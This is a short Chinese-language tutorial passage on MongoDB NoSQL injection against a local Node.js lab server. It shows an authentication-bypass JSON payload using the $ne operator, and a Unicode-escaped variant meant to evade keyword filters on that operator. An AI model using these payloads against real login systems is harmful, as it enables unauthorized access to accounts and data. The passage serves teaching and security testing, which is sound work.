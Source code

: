 - index.jade

```jade
h1 #{message}
p #{message}
```

运行 server.js 后，访问 8000 端口：

由于后端解析 JSON，所以我们发送 JSON 格式的 payload：

```sql
{"username":{"$ne":1},"password": {"$ne":1}}
```

![image-20230513190428944](picture/image-20230513190428944.png)

如上图所示，成功登录。

在处理 MongoDB 查询时，经常会使用 JSON 格式将用户提交的数据发送到服务端，如果目标过滤了 `$ne` 等关键字，我们可以使用 Unicode 编码绕过，因为 JSON 可以直接解析 Unicode。如下所示

```sql
{"username":{"\u0024\u006e\u0065":1},"password": {"\u0024\u006e\u0065":1}}
// {"username":{"$ne":1},"password": {"$ne":1}}
```
